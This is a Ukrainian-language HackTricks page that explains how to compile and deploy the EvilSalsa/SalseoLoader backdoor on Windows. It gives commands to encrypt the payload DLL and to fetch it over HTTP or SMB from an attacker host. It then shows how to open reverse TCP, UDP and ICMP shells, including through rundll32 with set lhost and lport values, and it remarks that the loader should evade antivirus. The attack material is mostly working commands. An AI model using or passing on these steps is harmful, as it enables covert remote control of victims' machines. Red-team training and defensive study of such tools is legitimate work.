 # Salseo

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Compiling the binaries

Завантажте вихідний код з github і скомпілюйте **EvilSalsa** та **SalseoLoader**. Вам потрібно буде встановити **Visual Studio** для компіляції коду.

Скомпіліруйте ці проекти для архітектури віконного комп'ютера, на якому ви будете їх використовувати (якщо Windows підтримує x64, скомпіліруйте їх для цієї архітектури).

Ви можете **вибрати архітектуру** в Visual Studio у **лівій вкладці "Build"** у **"Platform Target".**

(\*\*Якщо ви не можете знайти ці опції, натисніть на **"Project Tab"** і потім на **"\<Project Name> Properties"**)

![](<../.gitbook/assets/image (839).png>)

Потім збудуйте обидва проекти (Build -> Build Solution) (У логах з'явиться шлях до виконуваного файлу):

![](<../.gitbook/assets/image (381).png>)

## Prepare the Backdoor

По-перше, вам потрібно буде закодувати **EvilSalsa.dll.** Для цього ви можете використовувати python-скрипт **encrypterassembly.py** або скомпілювати проект **EncrypterAssembly**:

### **Python**
```
python EncrypterAssembly/encrypterassembly.py <FILE> <PASSWORD> <OUTPUT_FILE>
python EncrypterAssembly/encrypterassembly.py EvilSalsax.dll password evilsalsa.dll.txt
```
### Windows
```
EncrypterAssembly.exe <FILE> <PASSWORD> <OUTPUT_FILE>
EncrypterAssembly.exe EvilSalsax.dll password evilsalsa.dll.txt
```
Добре, тепер у вас є все необхідне для виконання всіх Salseo речей: **закодований EvilDalsa.dll** та **бінарний файл SalseoLoader.**

**Завантажте бінарний файл SalseoLoader.exe на машину. Вони не повинні бути виявлені жодним AV...**

## **Виконання бекдору**

### **Отримання TCP зворотного шеллу (завантаження закодованого dll через HTTP)**

Не забудьте запустити nc як слухача зворотного шеллу та HTTP сервер для обслуговування закодованого evilsalsa.
```
SalseoLoader.exe password http://<Attacker-IP>/evilsalsa.dll.txt reversetcp <Attacker-IP> <Port>
```
### **Отримання UDP зворотного шеллу (завантаження закодованого dll через SMB)**

Не забудьте запустити nc як прослуховувач зворотного шеллу та SMB сервер для надання закодованого evilsalsa (impacket-smbserver).
```
SalseoLoader.exe password \\<Attacker-IP>/folder/evilsalsa.dll.txt reverseudp <Attacker-IP> <Port>
```
### **Отримання ICMP зворотного шеллу (закодована dll вже всередині жертви)**

**Цього разу вам потрібен спеціальний інструмент на клієнті для отримання зворотного шеллу. Завантажте:** [**https://github.com/inquisb/icmpsh**](https://github.com/inquisb/icmpsh)

#### **Вимкнути ICMP відповіді:**
```
sysctl -w net.ipv4.icmp_echo_ignore_all=1

#You finish, you can enable it again running:
sysctl -w net.ipv4.icmp_echo_ignore_all=0
```
#### Виконати клієнта:
```
python icmpsh_m.py "<Attacker-IP>" "<Victm-IP>"
```
#### Всередині жертви, давайте виконаємо salseo:
```
SalseoLoader.exe password C:/Path/to/evilsalsa.dll.txt reverseicmp <Attacker-IP>
```
## Компіляція SalseoLoader як DLL, що експортує основну функцію

Відкрийте проект SalseoLoader за допомогою Visual Studio.

### Додайте перед основною функцією: \[DllExport]

![](<../.gitbook/assets/image (409).png>)

### Встановіть DllExport для цього проекту

#### **Інструменти** --> **Менеджер пакетів NuGet** --> **Керувати пакетами NuGet для рішення...**

![](<../.gitbook/assets/image (881).png>)

#### **Шукайте пакет DllExport (використовуючи вкладку Перегляд) і натисніть Встановити (і прийміть спливаюче вікно)**

![](<../.gitbook/assets/image (100).png>)

У вашій папці проекту з'явилися файли: **DllExport.bat** та **DllExport\_Configure.bat**

### **В**идалити DllExport

Натисніть **Видалити** (так, це дивно, але повірте, це необхідно)

![](<../.gitbook/assets/image (97).png>)

### **Вийдіть з Visual Studio та виконайте DllExport\_configure**

Просто **вийдіть** з Visual Studio

Потім перейдіть до вашої **папки SalseoLoader** і **виконайте DllExport\_Configure.bat**

Виберіть **x64** (якщо ви плануєте використовувати його всередині x64 системи, це був мій випадок), виберіть **System.Runtime.InteropServices** (всередині **Namespace для DllExport**) і натисніть **Застосувати**

![](<../.gitbook/assets/image (882).png>)

### **Відкрийте проект знову у Visual Studio**

**\[DllExport]** більше не повинно позначатися як помилка

![](<../.gitbook/assets/image (670).png>)

### Зберіть рішення

Виберіть **Тип виходу = Бібліотека класів** (Проект --> Властивості SalseoLoader --> Застосування --> Тип виходу = Бібліотека класів)

![](<../.gitbook/assets/image (847).png>)

Виберіть **платформу x64** (Проект --> Властивості SalseoLoader --> Збірка --> Цільова платформа = x64)

![](<../.gitbook/assets/image (285).png>)

Щоб **зібрати** рішення: Збірка --> Зібрати рішення (в консолі виходу з'явиться шлях до нової DLL)

### Тестуйте згенеровану DLL

Скопіюйте та вставте DLL туди, де ви хочете її протестувати.

Виконайте:
```
rundll32.exe SalseoLoader.dll,main
```
Якщо помилка не з'являється, ймовірно, у вас є функціональний DLL!!

## Отримати оболонку, використовуючи DLL

Не забудьте використовувати **HTTP** **сервер** і налаштувати **nc** **слухача**

### Powershell
```
$env:pass="password"
$env:payload="http://10.2.0.5/evilsalsax64.dll.txt"
$env:lhost="10.2.0.5"
$env:lport="1337"
$env:shell="reversetcp"
rundll32.exe SalseoLoader.dll,main
```
### CMD
```
set pass=password
set payload=http://10.2.0.5/evilsalsax64.dll.txt
set lhost=10.2.0.5
set lport=1337
set shell=reversetcp
rundll32.exe SalseoLoader.dll,main
```
{% hint style="success" %}
Вивчайте та практикуйте AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Вивчайте та практикуйте GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримайте HackTricks</summary>

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи Telegram**](https://t.me/peass) або **слідкуйте** за нами в **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Діліться хакерськими трюками, надсилаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв на github.

</details>
{% endhint %}
